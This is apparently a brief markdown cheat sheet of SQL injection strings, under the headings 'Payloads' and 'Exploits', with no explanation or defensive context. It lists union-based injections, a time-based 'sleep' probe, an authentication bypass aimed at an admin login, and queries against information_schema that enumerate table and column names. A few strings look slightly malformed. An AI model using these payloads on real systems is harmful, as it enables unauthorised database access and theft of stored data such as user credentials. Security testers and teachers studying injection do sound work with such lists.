 # Payloads

  1. `' union select 1 -- - `
  2. `′ AND sleep (10) `






## Exploits 

  1. `select 1,TABLE_NAME,group_concat(COLUMN_NAME order by COLUMN_NAME asc separator '\n') from information_schema.columns where TABLE_NAME=users`

  2. `admin' union select * from admins -- -`

  3. `'union+select+2 -- -&password=2`

  4. `'union select 1,TABLE_NAME,group_concat(TABLE_NAME order by TABLE_NAME asc separator '\n') from information_schema.table`